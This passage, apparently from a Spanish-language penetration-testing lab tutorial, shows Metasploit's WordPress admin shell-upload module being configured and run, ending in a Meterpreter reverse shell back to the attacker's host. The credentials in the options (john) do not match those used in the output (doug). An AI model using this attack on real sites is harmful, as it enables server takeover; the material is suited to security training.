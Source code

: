 ```r
msf6 exploit(unix/webapp/wp_admin_shell_upload) > show options 

Module options (exploit/unix/webapp/wp_admin_shell_upload):

   Name       Current Setting           Required  Description
   ----       ---------------           --------  -----------
   PASSWORD   firebird1                 yes       The WordPress password to authenticate with
   Proxies                              no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.129.42.195             yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80                        yes       The target port (TCP)
   SSL        false                     no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                         yes       The base path to the wordpress application
   USERNAME   john                      yes       The WordPress username to authenticate with
   VHOST      blog.inlanefreight.local  no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.15      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   WordPress
```

Una vez que estemos satisfechos con la configuración, podemos escribir `exploit` y obtener un reverse shell. Desde aquí, podríamos comenzar a enumerar el host en busca de datos sensibles o rutas para escalación de privilegios verticales/horizontales y movimiento lateral.

```r
msf6 exploit(unix/webapp/wp_admin_shell_upload) > exploit

[*] Started reverse TCP handler on 10.10.14.15:4444 
[*] Authenticating with WordPress using doug:jessica1...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload...
[*] Executing the payload at /wp-content/plugins/CczIptSXlr/wCoUuUPfIO.php...
[*] Sending stage (39264 bytes) to 10.129.42.195
[*] Meterpreter session 1 opened (10.10.14.15:4444 -> 10.129.42.195:42816) at 2021-09-20 19:43:46 -0400[+] Deleted wCoUuUPfIO.php
[+] Deleted CczIptSXlr.php
[+] Deleted ../CczIptSXlr

meterpreter > getuid

Server username: www-data (33)
```
